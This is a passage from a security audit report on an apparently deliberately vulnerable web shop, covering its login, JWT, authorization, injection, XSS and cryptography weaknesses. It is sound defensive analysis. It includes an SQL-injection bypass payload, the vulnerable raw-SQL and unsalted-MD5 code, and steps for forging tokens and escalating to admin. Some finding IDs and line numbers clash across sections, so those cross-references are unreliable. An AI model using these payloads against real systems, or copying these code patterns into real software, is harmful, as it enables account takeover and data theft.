**Status:** 🔴 Unsafe - the login query concatenates user input into raw SQL, so authentication is bypassed without valid credentials; the reset flow accepts a guessable security question with no rate limit.

`routes/login.ts` and `lib/insecurity.ts` implement the password lifecycle. Login submits POST `/rest/user/login`, which hashes the supplied password with `MD5` (no salt) in `lib/insecurity.ts:hash()` and passes the result into a raw Sequelize `query()` call at `routes/login.ts:34`. Password reset uses `POST /rest/user/reset-password`, verified against a security question whose answer hash is computed with a hardcoded HMAC key at `lib/insecurity.ts:44`.

The diagram shows the intended password login path, including the path into session token issuance:



**Security assessment**

The login route at `routes/login.ts:34` builds its SQL string by concatenating request parameters, making credential bypass trivial via a `' OR 1=1--` payload. Password storage uses unsalted `MD5` (`lib/insecurity.ts:43`), which allows offline cracking of any recovered hash with a rainbow table lookup. The password reset handler at `routes/resetPassword.ts:41` accepts answers to guessable questions and has no rate limit or lockout - a brute-force loop covers the answer space in seconds. Each of these three weaknesses independently defeats the authentication boundary.

- **Login** — 🔴 Unsafe. Raw SQL construction at `routes/login.ts:34` allows authentication bypass via SQL injection.
- **Registration** — 🔴 Unsafe. POST `/api/Users` at `server.ts:407` accepts a `role` field via mass assignment; see [§7.2.3 User Registration](#user-registration).
- **Password Reset** — 🔴 Unsafe. Security question response at `routes/resetPassword.ts:41` has no rate limit; HMAC key is hardcoded at `lib/insecurity.ts:44`.
- **Password Storage** — 🔴 Unsafe. Unsalted `MD5` at `lib/insecurity.ts:43`; deep assessment in [§7.9.2 Password Hashing](#password-hashing).

**Relevant findings**

- 🔴 [F-003](#f-003) — Insecure JWT verification also routes through the same `lib/insecurity.ts` module used for login, compounding the authentication boundary defeat.
- 🔴 [F-005](#f-005) — Unsalted MD5 at `lib/insecurity.ts:43` means any stolen hash is immediately reversible.
- 🔴 [F-012](#f-012) — Client-side route guard at `frontend/src/app/app.guard.ts:18` is bypassable via `localStorage` manipulation, undermining any authentication signal in the SPA.
- 🟠 [F-016](#f-016) — Brute-forceable security question reset at `routes/resetPassword.ts:41` allows account takeover without credentials.

<a id="api-key-bearer-token-authentication"></a>
#### 7.2.2 API Key / Bearer Token Authentication

**Status:** 🔴 Unsafe - the Bearer token is a JWT signed with a hardcoded RSA private key committed to the public repository, so any reader of the source can forge a token for any user or role.

`lib/insecurity.ts` issues Bearer tokens via `authorize()` (line 56) using the RSA private key at line 23. All protected Express routes consume the token via `express-jwt` middleware registered in `server.ts`. The token carries `email`, `role`, and `userId` claims and is accepted by the middleware on any route that calls `lib/insecurity.ts:isAuthorized()`.

**Security assessment**

The signing key at `lib/insecurity.ts:23` is a 1024-bit RSA private key committed in plaintext to the public GitHub repository, so possession of the source code is equivalent to possession of the signing key. Any actor can forge a token with `role: admin` and pass every `isAuthorized()` check. The `express-jwt` middleware also accepts the `alg:none` algorithm because the underlying `jsonwebtoken` library version in use does not reject it by default - this is assessed separately in [§7.3](#73-session-and-token-controls) and 🔴 [F-003](#f-003) — Insecure JWT Verification — `lib/insecurity.ts:54`. There is no API key rotation mechanism or key-management lifecycle.

**Relevant findings**

- 🔴 [F-003](#f-003) — `lib/insecurity.ts:54` does not enforce algorithm restriction; `alg:none` tokens are accepted.
- 🔴 [F-004](#f-004) — RSA private key at `lib/insecurity.ts:23` is hardcoded and publicly committed, enabling arbitrary token forgery.
- 🔴 [F-012](#f-012) — Client-side guard at `app.guard.ts:18` reads from `localStorage`; a forged token placed there bypasses the SPA's login checks.

<a id="user-registration"></a>
#### 7.2.3 User Registration

**Status:** 🔴 Unsafe - POST `/api/Users` accepts model fields including `role` without ownership validation, allowing any caller to self-assign administrator role at registration time.

`POST /api/Users` is wired to the Sequelize `User` model at `server.ts:407`. The `User` model's `role` setter at `models/user.ts:80` does not enforce ownership - any HTTP caller can include `"role": "admin"` in the JSON body and the ORM persists it as supplied. The route also has no authentication requirement, so the attack is unauthenticated.

The diagram shows the registration flow and the mass-assignment path:

```mermaid
sequenceDiagram
    autonumber
    actor Attacker
    participant API as POST /api/Users
    participant ORM as Sequelize User Model
    participant DB as SQLite Users Table

    Attacker->>API: POST /api/Users {email, password, role: "admin"}
    API->>ORM: User.create(req.body) - no field filtering
    ORM->>DB: INSERT INTO Users (email, password, role) VALUES (...)
    DB-->>ORM: New user row with role=admin
    ORM-->>API: User object
    API-->>Attacker: 201 Created - admin account
```

**Security assessment**

The Sequelize `User.create()` call at `server.ts:407` passes the raw request body to the model without a field allowlist, so every model attribute - including `role` - is writable by the caller. The `models/user.ts:80` setter applies no ownership or caller-role check. The route has no authentication middleware (🔴 [F-046](#f-046) — Sensitive Routes Registered Without Authentication Middleware — `server.ts:310`), so the entire path from unauthenticated HTTP request to persisted admin account is four lines of code. Mass assignment at registration is the fastest privilege-escalation path in the application.

**Relevant findings**

- 🔴 [F-017](#f-017) — WebSocket connection at `registerWebsocketEvents.ts:24` has no authentication gate, exposing the real-time channel to any unauthenticated caller.
- 🔴 [F-046](#f-046) — `server.ts:310` registers sensitive routes without authentication middleware, including the user-creation endpoint.
- 🔴 [F-051](#f-051) — Mass assignment at `server.ts:483` allows `role: admin` injection via POST `/api/Users`.
- 🟠 [F-053](#f-053) — `registerWebsocketEvents.ts:41` processes challenge-solver events from unauthenticated WebSocket clients.
- 🟡 [F-064](#f-064) — No rate limit or connection cap on the `Socket.IO` endpoint at `registerWebsocketEvents.ts:20`.

<a id="password-reset"></a>
#### 7.2.4 Password Reset

**Status:** 🔴 Unsafe - the security question answer is verified against a hardcoded HMAC key with no rate limit, making the reset flow brute-forceable in seconds.

`POST /rest/user/reset-password` is handled by `routes/resetPassword.ts`. It requires the caller to supply an email address and a security question answer. The answer is verified by computing an HMAC with the key hardcoded in `lib/insecurity.ts:44` and comparing the result against the stored hash. No lockout, delay, or CAPTCHA is applied.

The diagram shows the intended password reset path:

```mermaid
sequenceDiagram
    autonumber
    actor User
    participant SPA as Angular SPA
    participant API as POST /rest/user/reset-password
    participant DB as SQLite Users Table

    User->>SPA: Enter email and security answer
    SPA->>API: POST /rest/user/reset-password (email, answer, newPassword)
    API->>DB: SELECT securityAnswer WHERE email=?
    DB-->>API: Stored HMAC-SHA256 answer hash
    API->>API: HMAC(answer, hardcoded_key) == stored hash?
    API->>DB: UPDATE password WHERE email=?
    API-->>SPA: 200 OK - password changed
```

**Security assessment**

`routes/resetPassword.ts:41` applies no rate limit, no progressive delay, and no CAPTCHA before accepting a reset. The HMAC key at `lib/insecurity.ts:44` is hardcoded and publicly readable, so an attacker who reads the source code can pre-compute every possible security answer without making network requests. Even without source access, the endpoint allows unlimited rapid guessing. Common questions like "What is your mother's maiden name?" have answer spaces small enough to exhaust in a dictionary attack in under a minute.

**Relevant findings**

- 🟠 [F-016](#f-016) — Brute-forceable security question reset at `routes/resetPassword.ts:41`; hardcoded HMAC key at `lib/insecurity.ts:44` allows offline pre-computation of all answers.

<a id="multi-factor-authentication"></a>
#### 7.2.5 Multi-Factor Authentication

**Status:** 🔴 Unsafe - the TOTP verification endpoint accepts a JWT signed with `alg:none`, bypassing the second factor entirely without a valid TOTP code.

`POST /rest/2fa/verify` is handled by `routes/2fa.ts`. TOTP enrollment stores a secret per user, and the verification route checks a supplied `tmpToken` JWT before accepting the TOTP code. The `tmpToken` is verified by `lib/insecurity.ts:authorize()`, which does not restrict the accepted signing algorithm.

**Security assessment**

`routes/2fa.ts:26` verifies the `tmpToken` using the same `lib/insecurity.ts:authorize()` path that is vulnerable to algorithm confusion. Supplying a `tmpToken` with `alg:none` and a forged payload passes the signature check, so any caller who knows a valid email address can skip the TOTP step entirely. MFA enrollment itself is optional and not enforced for privileged accounts, so the control is partial by design and then defeated by the algorithm bypass.

**Relevant findings**

- 🟠 [F-045](#f-045) — JWT algorithm bypass at `routes/2fa.ts:26` allows `alg:none` tokens to pass TOTP verification, eliminating the second factor.

<a id="oauth-oidc"></a><a id="social-login"></a>
#### 7.2.6 OAuth/OIDC

**Status:** 🔴 Unsafe - the OAuth flow is a frontend-only adapter that derives a deterministic local password from the user's email address, so anyone who knows a victim's email can produce the same credential without OAuth.

`frontend/src/app/oauth/oauth.component.ts` implements an implicit-flow OAuth adapter. After receiving a Google access token from the redirect URL, it calls the Google UserInfo endpoint to retrieve the user's email, then derives a local password by encoding the email address and calls `POST /rest/user/login` with that password. The actual OAuth access token is passed in the URL hash, which is logged by browser history and referrer headers.

The diagram shows the Social Login flow and how it collapses into local password login:

```mermaid
sequenceDiagram
    autonumber
    actor User
    participant SPA as oauth.component.ts
    participant Google as Google UserInfo API
    participant API as Local Login and User API
    participant JWT as JWT Issuer

    User->>SPA: Return from OAuth redirect (access_token in URL hash)
    SPA->>Google: GET userinfo with access_token (login.component.ts:134)
    Google-->>SPA: Email address
    SPA->>API: POST /api/Users - create local account if absent
    SPA->>API: POST /rest/user/login with derived password (oauth.component.ts:30)
    API->>JWT: sign(payload, RSA_PRIVATE_KEY)
    JWT-->>API: RS256-signed JWT
    API-->>SPA: 200 OK - session token
```

**Security assessment**

`oauth.component.ts:30` derives the local login password deterministically from the email address alone. Any caller who knows a victim's email can reproduce the password without OAuth involvement, making the Google IdP an ineffective trust boundary. The access token is also passed in the URL fragment (`login.component.ts:134`), which is recorded in browser history and may appear in `Referer` headers to third-party scripts loaded on the page.

**Relevant findings**

- 🔴 [F-002](#f-002) — Deterministic local credential derived from OAuth email claim at `oauth.component.ts:30` allows impersonation without OAuth interaction.
- 🟠 [F-015](#f-015) — OAuth access token exposed in URL hash at `login.component.ts:134`; recorded in browser history and `Referer` headers.

### 7.3 Session and Token Controls

**Verdict:** 🔴 Unsafe

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [7.3.1 JWT Token Lifecycle](#731-jwt-token-lifecycle)

**Implemented controls:** `lib/insecurity.ts`:`authorize()`, `lib/insecurity.ts:24` (hardcoded key).

**Assessment:** This application uses a single locally-signed token format (JWT) for every authenticated session, regardless of the login flow in [§7.2](#72-identity-and-authentication-controls) that established it. The sub-sections below trace one token through its lifecycle: signing on issuance, validation on every protected request, and storage in the browser. The signing key is hardcoded in plaintext in the source, the verification does not restrict accepted algorithms, and the token is stored in `localStorage` where it is reachable by any XSS payload.

<a id="jwt-token-lifecycle"></a>
#### 7.3.1 JWT Token Lifecycle

**Status:** 🔴 Unsafe - the signing key is committed in plaintext, algorithm restriction is absent, and the token is stored in `localStorage`, making forgery, bypass, and theft each independently exploitable.

⚠ **Anti-pattern:** JWT in localStorage

`lib/insecurity.ts` is the central JWT module. `authorize()` at line 56 signs tokens using the RSA private key defined at line 23 (a 1024-bit key in a multi-line string literal). `lib/insecurity.ts:54` is also the verification path used by all protected routes via `express-jwt`. The Angular SPA stores the issued token in `localStorage` at `login.component.ts:101`.

The diagram shows the full JWT lifecycle from issuance to browser storage to request verification:

```mermaid
sequenceDiagram
    autonumber
    actor User
    participant SPA as Angular SPA
    participant API as Express Backend
    participant JWT as lib/insecurity.ts

    User->>SPA: Login credentials
    SPA->>API: POST /rest/user/login
    API->>JWT: authorize(user) - sign with RSA_PRIVATE_KEY (line 23)
    JWT-->>API: RS256-signed JWT (or alg:none if attacker controls header)
    API-->>SPA: 200 OK - token
    SPA->>SPA: localStorage.setItem("token", token) - line 101
    SPA->>API: GET /api/... - Authorization: Bearer token
    API->>JWT: verify(token) - no algorithm restriction (line 54)
    JWT-->>API: Decoded payload (passes for alg:none)
    API-->>SPA: Protected resource
```

**Security assessment**

Three independent weaknesses each defeat the session boundary:

- Hardcoded key at `lib/insecurity.ts:23` is publicly committed; any reader of the GitHub repository can sign arbitrary tokens for any user or role.
- Verification at `lib/insecurity.ts:54` does not pass an `algorithms` option to `jsonwebtoken.verify()`, so tokens with header `"alg": "none"` are accepted without a signature check.
- `localStorage` storage at `login.component.ts:101` exposes the token to any JavaScript executing in the origin - any stored XSS payload can exfiltrate the session with a single `localStorage.getItem("token")` call.

**Relevant findings**

- 🟠 [F-001](#f-001) — JWT stored in `localStorage` at `login.component.ts:101`; reachable by any XSS payload on the origin.
- 🔴 [F-003](#f-003) — `lib/insecurity.ts:54` accepts `alg:none` tokens because no algorithm allowlist is passed to `jsonwebtoken.verify()`.
- 🔴 [F-004](#f-004) — 1024-bit RSA private key at `lib/insecurity.ts:23` is committed in plaintext to the public repository.
- 🟠 [F-045](#f-045) — The same algorithm bypass is exploited in the 2FA verification path at `routes/2fa.ts:26`.

### 7.4 Authorization Controls

**Verdict:** 🔴 Missing

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [7.4.1 Route-Level Authorization Middleware](#741-route-level-authorization-middleware)
- [7.4.2 Object-Level Authorization](#742-object-level-authorization)

**Implemented controls:** `server.ts` middleware chain, `lib/insecurity.ts`:`isAuthorized()`; `routes/address.ts`, `routes/basketItems.ts`, `routes/delivery.ts`.

**Assessment:** Route-level authentication is partially applied - some management endpoints require a valid JWT - but role enforcement is inconsistent and object-level ownership checks are absent across resource-access routes. A logged-in user can read or modify another user's addresses, basket items, orders, payment cards, and delivery records by substituting the target's numeric resource ID.

<a id="route-level-authorization-middleware"></a>
#### 7.4.1 Route-Level Authorization Middleware

**Status:** 🟡 Partial - authentication middleware is present on some routes but absent on a large subset of management and resource endpoints registered in `server.ts`.

`server.ts` registers routes sequentially. Some routes call `lib/insecurity.ts:isAuthorized()` as an Express middleware before the route handler; others are registered directly with no auth guard. The `isAuthorized()` function validates a Bearer JWT but does not check the caller's role against the required permission level.

**Security assessment**

Seventeen or more sensitive routes in `server.ts` are registered without any authentication middleware (🔴 [F-046](#f-046) — Sensitive Routes Registered Without Authentication Middleware — `server.ts:310`), including PUT `/api/Products/:id` at line 369, POST `/api/Users` at line 407, and multiple wallet, delivery, and challenge-solution endpoints. Even routes that do require a JWT do not enforce role - `isAuthorized()` confirms token validity but does not distinguish a customer from an administrator. The result is that authenticated-but-low-privilege users can invoke admin-only operations by presenting any valid token.

**Relevant findings**

- 🔴 [F-006](#f-006) — Client-side route guard at `app.guard.ts:18` is the only access control for many protected pages; it can be bypassed by manipulating `localStorage` directly.
- 🔴 [F-013](#f-013) — Role escalation at `lib/insecurity.ts:56` is possible once an attacker holds a valid token (forged or stolen), because route handlers do not check the `role` claim.
- 🟠 [F-030](#f-030) — Missing authorization on PUT `/api/Products/:id` at `server.ts:369`; any authenticated user can modify product records.

<a id="object-level-authorization"></a><a id="object-level-authorization-idor-prevention"></a>
#### 7.4.2 Object-Level Authorization

**Status:** 🔴 Missing - resource-access routes retrieve objects by caller-supplied ID without comparing the resource's owner field to the authenticated caller's identity.

`routes/address.ts`, `routes/basketItems.ts`, `routes/delivery.ts`, and a dozen similar route files accept a numeric or string resource ID from the URL path and pass it directly to Sequelize `findByPk()` or `findOne()` with no ownership predicate. The caller's identity (from the JWT `userId` claim) is not compared against the resource's `UserId` foreign key.

**Security assessment**

Every IDOR-vulnerable route follows the same pattern: authenticate the caller (or not, per [§7.4.1](#741-route-level-authorization-middleware)), look up the object by ID, return or mutate it. None of these routes add `WHERE UserId = req.user.id` to the query. An authenticated user who discovers or guesses a neighbouring resource ID gains full read/write/delete access to that object. The affected surface covers addresses, basket items, delivery options, orders, payment cards, wallet balances, and data exports - collectively spanning all customer PII and financial data in the application.

**Relevant findings**

- 🔴 [F-006](#f-006) — IDOR across address, basket, delivery, and data-export routes; the ownership predicate is absent at every affected call site.
- 🔴 [F-013](#f-013) — Role escalation compounded with IDOR allows an admin-impersonating attacker to access all users' data.
- 🟠 [F-030](#f-030) — Missing authorization on PUT `/api/Products/:id` at `server.ts:369` allows unauthenticated product modification.

### 7.5 Query Construction and Data Access Controls

**Verdict:** 🔴 Unsafe

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [7.5.1 SQL Query Parameterization](#751-sql-query-parameterization)

**Implemented controls:** `routes/login.ts:34`, `routes/search.ts:23`.

**Assessment:** Sequelize ORM models back most data access, but the two highest-risk routes - login and product search - bypass the ORM and construct raw SQL strings by concatenating user-supplied values. Both routes are unauthenticated and internet-facing, making them the most directly exploitable injection surfaces in the application.

<a id="sql-query-parameterization"></a>
#### 7.5.1 SQL Query Parameterization

**Status:** 🔴 Unsafe - login and search routes pass user-controlled input directly into `models.sequelize.query()` string templates instead of using parameterized placeholders.

⚠ **Anti-pattern:** Raw SQL string interpolation

Sequelize is the ORM for most queries in the application and uses parameterized bindings by default. Two routes deviate from this: `routes/login.ts:34` constructs a `SELECT` statement by interpolating the hashed password directly into the SQL string, and `routes/search.ts:23` interpolates the `q` query parameter into a `LIKE` clause.

The login route illustrates the raw SQL construction pattern:

```ts
models.sequelize.query(
  `SELECT * FROM Users WHERE email = '${email}' AND password = '${req.body.password && security.hash(req.body.password)}' AND deletedAt IS NULL`,
  { model: UserModel, plain: true }
)
```

**Security assessment**

Both injection points are unauthenticated, so exploitation requires no prior credential. The login query at `routes/login.ts:34` allows authentication bypass with a payload such as `' OR 1=1--`; the search route at `routes/search.ts:23` allows data extraction via UNION-based injection. Sequelize's parameterized `replacements` or `bind` syntax would close both paths with a one-line change per route.

**Relevant findings**

- 🔴 [F-007](#f-007) — SQL injection in the login query at `routes/login.ts:34` allows authentication bypass without credentials.
- 🔴 [F-008](#f-008) — SQL injection in the product search route at `routes/search.ts:23` allows data extraction from the SQLite database.

### 7.6 Input Boundary Validation Controls

**Verdict:** 🟠 Weak

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [7.6.1 Validation Approach](#761-validation-approach)
- [7.6.2 Server-Side Input Validation](#762-server-side-input-validation)

**Implemented controls:** sanitize-html (partial), sanitize-filename, yaml-schema-validator.

**Assessment:** A small number of routes apply targeted sanitization - file-name sanitization for uploads, a YAML schema validator for challenge content. There is no request-level schema validation applied globally or at route registration, so most endpoints accept arbitrary JSON payloads without type or range checks.

<a id="validation-approach"></a>
#### 7.6.1 Validation Approach

**Status:** 🟠 Weak - validation is applied ad-hoc per route rather than through a central request-validation middleware, leaving most endpoints without input constraints.

Input validation in Juice Shop is a collection of targeted library calls rather than a systematic approach. `sanitize-html` (version 1.4.2) is called selectively in some routes to strip HTML from user-supplied strings. `sanitize-filename` is used in the file-upload handler to prevent path components in uploaded filenames. A YAML schema validator is applied to challenge-definition files at load time. No global middleware registers request-schema constraints at the route level.

**Security assessment**

The absence of a central validation layer means that every new route must independently apply the appropriate checks - a pattern that historically produces gaps. Observed gaps include: no content-type enforcement on upload endpoints (allowing arbitrary file types beyond what the route handler checks), no maximum length enforcement on free-text fields such as user feedback and product reviews (enabling large-payload DoS), and no type checking on numeric ID parameters (allowing non-integer IDs that produce Sequelize errors). The `sanitize-html` version in use is outdated and has known bypass vectors (🟠 [F-041](#f-041) — Event-loop blocking DoS — `routes/b2bOrder.ts:23`).

**Relevant findings**

- 🟠 [F-041](#f-041) — `sanitize-html@1.4.2` has known bypass vectors that allow HTML injection through malformed tag sequences.
- 🟠 [F-042](#f-042) — User-controlled fields lack length enforcement; oversized payloads can cause denial-of-service conditions.
- 🟠 [F-044](#f-044) — No content-type enforcement on file upload routes allows file-type bypass beyond the route handler's extension check.

<a id="server-side-input-validation"></a>
#### 7.6.2 Server-Side Input Validation

**Status:** 🟡 Partial - sanitize-html and sanitize-filename are applied selectively, but coverage is incomplete and the sanitize-html version in use has known bypass vectors.

`sanitize-html@1.4.2` is called in routes that handle user-generated content before persisting or rendering strings. `sanitize-filename` strips path-traversal characters from uploaded filenames in `routes/fileUpload.ts`. A YAML schema validator is applied in challenge loading code via `yaml-schema-validator`.

**Security assessment**

`sanitize-html@1.4.2` is several major versions behind the current release and has documented bypass techniques that allow attribute-based injection through malformed or truncated tags. Coverage is also selective - routes handling complaint text and memory photo captions do not apply sanitization at all. The `sanitize-filename` call in the file-upload handler correctly strips path components from filename metadata but is bypassed by the Zip-slip attack vector (🟠 [F-025](#f-025) — Zip-Slip Path Traversal — `routes/fileUpload.ts:45`), which manipulates the archive entry path rather than the uploaded filename field.

**Relevant findings**

- 🟠 [F-041](#f-041) — `sanitize-html@1.4.2` bypass allows HTML injection in routes that call the library; routes without the call are entirely unprotected.
- 🟠 [F-042](#f-042) — Missing length and type constraints across user-supplied fields.
- 🟠 [F-044](#f-044) — File-upload content-type validation absent; routes rely on extension inspection only.

### 7.7 Output Encoding and Rendering Controls

**Verdict:** 🟠 Weak

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [7.7.1 XSS Prevention](#771-xss-prevention)

**Implemented controls:** Angular template engine, `sanitize-html@1.4.2`.

**Assessment:** Angular's template engine provides automatic HTML encoding for interpolated values by default. Three components bypass this protection by calling `bypassSecurityTrustHtml()` to render rich HTML from user-supplied or server-returned data, creating stored and reflected XSS sinks directly in the DOM.

<a id="xss-prevention"></a><a id="xss-prevention-angularhtml-encoding"></a>
#### 7.7.1 XSS Prevention

**Status:** 🟡 Partial - Angular template escaping is on by default, but three components call `bypassSecurityTrustHtml()` to render unsanitized server content, each creating a direct XSS sink.

Angular's DomSanitizer sanitizes HTML by default in `{{ }}` interpolation and `[innerHTML]` bindings. Product descriptions, search query highlights, and the last-login-IP display each use `[innerHTML]` bound to a `DomSanitizer.bypassSecurityTrustHtml()` call, which suppresses Angular's built-in escaping and renders the value as raw HTML.

**Security assessment**

Three XSS sinks are present in the Angular SPA:

- `search-result.component.ts:132` - product description rendered via `bypassSecurityTrustHtml()`; any admin-stored product description containing a `<script>` or event-handler attribute executes in every visitor's browser (stored XSS).
- `search-result.component.ts:170` - search query term reflected into the result page via `bypassSecurityTrustHtml()`; URL-crafted payloads execute in the searcher's browser (reflected XSS).
- `last-login-ip.component.ts:39` - the `lastLoginIp` value from the JWT claim is rendered via `bypassSecurityTrustHtml()`; the `True-Client-IP` header stored at `routes/saveLoginIp.ts:18` is not sanitized server-side before storage, so a malicious header value becomes a stored XSS payload for the victim's next login page view.

**Relevant findings**

- 🔴 [F-018](#f-018) — Stored XSS — `search-result.component.ts:132` at `search-result.component.ts:132` via unsanitized product description rendered with `bypassSecurityTrustHtml()`.
- 🔴 [F-019](#f-019) — DOM XSS — `search-result.component.ts:170` at `search-result.component.ts:170` via search query reflected through `bypassSecurityTrustHtml()`.
- 🔴 [F-020](#f-020) — Stored XSS — `routes/saveLoginIp.ts:18` at `last-login-ip.component.ts:39` via unsanitized `True-Client-IP` header stored in `routes/saveLoginIp.ts:18` and rendered on next login.

### 7.8 Browser and Cross-Origin Controls

**Verdict:** 🔴 Missing

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [7.8.1 CORS Policy](#781-cors-policy)
- [7.8.2 Content Security Policy](#782-content-security-policy)
- [7.8.3 CSRF Protection](#783-csrf-protection)

**Implemented controls:** `server.ts:181`-182; `routes/userProfile.ts:95`, helmet (global but weak); None observed.

**Assessment:** Helmet is registered globally but without a meaningful Content-Security-Policy configuration. CORS is open to all origins. CSRF protection is absent entirely - the application relies on bearer-token-in-header as an implicit CSRF defense, but the token is in `localStorage` (XSS-reachable), so this assumption does not hold.

<a id="cors-policy"></a>
#### 7.8.1 CORS Policy

**Status:** 🟠 Weak - `Access-Control-Allow-Origin: *` is applied at `server.ts:181-182`, permitting any origin to read API responses via cross-origin requests.

`server.ts:181-182` applies a wildcard `Access-Control-Allow-Origin` header to all API responses using the `cors` npm package with default options. No origin allowlist is configured.

**Security assessment**

Wildcard CORS permits any web page to issue authenticated cross-origin requests to the API and read the responses. Combined with the `localStorage`-based token (XSS-reachable) and the absence of CSRF tokens, this policy removes the Same-Origin Policy as a defense layer against credential-bearing cross-site requests. The widest practical impact is on endpoints that do not require authentication - which represent the majority of the attack surface per [§7.4](#74-authorization-controls).

**Relevant findings**

- No dedicated finding routed in this assessment.

<a id="content-security-policy"></a><a id="content-security-policy-csp"></a>
#### 7.8.2 Content Security Policy

**Status:** 🟠 Weak - Helmet is registered globally but does not configure a restrictive `Content-Security-Policy`; the per-route override at `routes/userProfile.ts:95` sets a permissive policy rather than a strict one.

`server.ts` registers the `helmet` middleware early in the middleware chain. Helmet's default configuration omits `Content-Security-Policy` or sets it to a broad default. `routes/userProfile.ts:95` sets a route-level CSP header, but the policy allows `unsafe-inline` and `unsafe-eval` script sources.

**Security assessment**

Without a restrictive CSP, the three XSS sinks identified in [§7.7](#77-output-encoding-and-rendering-controls) have no browser-enforced execution restriction. A policy that allows `unsafe-inline` in `script-src` provides no meaningful XSS mitigation because inline event handlers and `<script>` blocks remain executable. Implementing a nonce-based strict CSP (`'nonce-{nonce}'` in `script-src`, no `unsafe-inline`) would break the XSS kill chain at the browser boundary without requiring changes to the application logic.

**Relevant findings**

- No dedicated finding routed in this assessment.

<a id="csrf-protection"></a>
#### 7.8.3 CSRF Protection

**Status:** 🔴 Missing - no CSRF token or `SameSite` cookie attribute is used; the application relies on `localStorage`-stored Bearer tokens as an implicit CSRF defense, but XSS-reachable token storage makes this assumption invalid.

No `csurf` middleware or equivalent CSRF-token mechanism is registered in `server.ts`. The application uses `Authorization: Bearer <token>` headers rather than cookies, which are generally not sent in cross-site requests. However, the token is stored in `localStorage`, which is writable and readable by any JavaScript on the origin - including XSS payloads.

**Security assessment**

The bearer-token-in-header pattern provides implicit CSRF protection only when the token is not reachable by injected scripts. Because the token is in `localStorage` and the application has multiple XSS sinks ([§7.7](#77-output-encoding-and-rendering-controls)), a cross-site script can extract the token and include it in a forged cross-origin request. Combining this with the wildcard CORS policy ([§7.8.1](#781-cors-policy)) removes both browser-level CSRF defenses. Moving the session token to an `HttpOnly Secure SameSite=Strict` cookie via a Backend-for-Frontend pattern would restore both protections simultaneously.

**Relevant findings**

- No dedicated finding routed in this assessment.

### 7.9 Cryptography Secrets and Data Protection

**Verdict:** 🔴 Unsafe

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [7.9.1 Secrets Management](#791-secrets-management)
- [7.9.2 Password Hashing](#792-password-hashing)

**Implemented controls:** `lib/insecurity.ts:24` (hardcoded RSA private key); `lib/insecurity.ts`:`hash()`.

**Assessment:** The two most security-critical cryptographic values in the application - the JWT signing key and the password hash - are both deployed in a defeated state. The RSA private key is committed in plaintext to the public source repository. The password hash function uses unsalted `MD5`, the weakest commonly-deployed algorithm. Neither value provides meaningful cryptographic protection.

<a id="secrets-management"></a>
#### 7.9.1 Secrets Management

**Status:** 🔴 Unsafe - the JWT RSA private key and the HMAC security-answer key are both hardcoded in `lib/insecurity.ts` and committed to the public GitHub repository.

⚠ **Anti-pattern:** Secrets hardcoded in source

`lib/insecurity.ts` declares the RSA private key as a multi-line string literal at line 23 and the HMAC key for security-answer verification at line 44. Both are present in every commit since the repository was made public. No environment-variable injection, secrets-management service, or key-derivation layer is present.

**Security assessment**

A 1024-bit RSA private key committed to a public repository is equivalent to a public key: possession of the source code is possession of the signing key. Any actor who clones the repository can sign arbitrary JWTs for any user identity and role. The HMAC key at line 44 allows offline pre-computation of all security-question answers for all registered users. Payment card numbers stored in the `card` model (🔴 [F-010](#f-010) — Payment card numbers stored in plaintext — `models/card.ts:39`) are not encrypted at rest, compounding the exposure when the SQLite database file is exfiltrated.

**Relevant findings**

- 🔴 [F-004](#f-004) — RSA private key at `lib/insecurity.ts:23` committed in plaintext; enables forging admin JWTs.
- 🔴 [F-010](#f-010) — Payment card numbers stored in plaintext — `models/card.ts:39` in `models/card.ts:39`; no encryption at rest.
- 🟠 [F-028](#f-028) — HMAC key at `lib/insecurity.ts:44` hardcoded; pre-computation of all security-question answer hashes is offline.

<a id="password-hashing"></a>
#### 7.9.2 Password Hashing

**Status:** 🔴 Unsafe - `lib/insecurity.ts:hash()` applies `MD5` without a salt, making every stored password hash immediately reversible via rainbow table or GPU-accelerated brute force.

`lib/insecurity.ts:43` defines the `hash()` function as `crypto.createHash('md5').update(plaintext).digest('hex')`. This function is called for every stored password. No salt, no work-factor, no adaptive algorithm.

The hash function that backs all password storage:

```ts
const hash = (data: string) => crypto.createHash('md5').update(data).digest('hex')
```

**Security assessment**

`MD5` runs at over 10 billion hashes per second on modern consumer GPU hardware. Without a salt, identical passwords produce identical hashes, so a single pre-computation covers the entire user table at once. Bcrypt with cost factor 12 or Argon2id with recommended memory parameters would reduce the attack throughput by at least eight orders of magnitude. The `hash()` function is called in one place and can be replaced without cascading changes - but existing stored hashes will remain `MD5` until users reset their passwords.

**Relevant findings**

- 🔴 [F-004](#f-004) — The same `lib/insecurity.ts` module that implements MD5 hashing also holds the hardcoded RSA key, concentrating two critical cryptographic weaknesses in one file.
- 🔴 [F-010](#f-010) — Payment card numbers are stored without hashing or encryption (`models/card.ts:39`); the contrast with the password-hashing decision illustrates the inconsistent cryptographic posture.
